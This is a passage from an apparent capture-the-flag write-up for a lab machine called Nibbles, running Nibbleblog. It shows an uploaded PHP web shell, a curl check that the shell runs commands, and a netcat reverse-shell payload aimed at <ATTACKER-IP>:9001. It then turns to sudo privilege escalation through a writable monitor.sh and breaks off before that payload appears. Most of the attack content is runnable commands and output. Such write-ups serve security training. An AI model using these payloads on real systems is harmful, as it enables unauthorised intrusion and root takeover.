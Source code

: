 We attempt to upload a PHP file:

```
<?php system('id'); ?>
```

Upload is successful, and we locate our file at:

```
http://<IP-Target>/nibbleblog/content/private/plugins/my_image/shell.php
```

Verifying execution:

```
curl http://<IP-Target>/nibbleblog/content/private/plugins/my_image/shell.php
```

Output:
```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We have command execution!

#### Reverse Shell Execution

Modify the file `shell.php`:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER-IP> 9001 >/tmp/f"); ?>
```

- Start a Netcat listener on the attack machine:

```
nc -lvnp 9001
```

- Execute the shell by visiting the file's URL.

Result: We obtain a shell as **nibbler**.

### 5. Privilege Escalation

#### Checking Sudo Permissions

```
sudo -l
```

Output:
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

The `monitor.sh` script is writable by nibbler and executable with `sudo`.

Appending a reverse shell to the script:
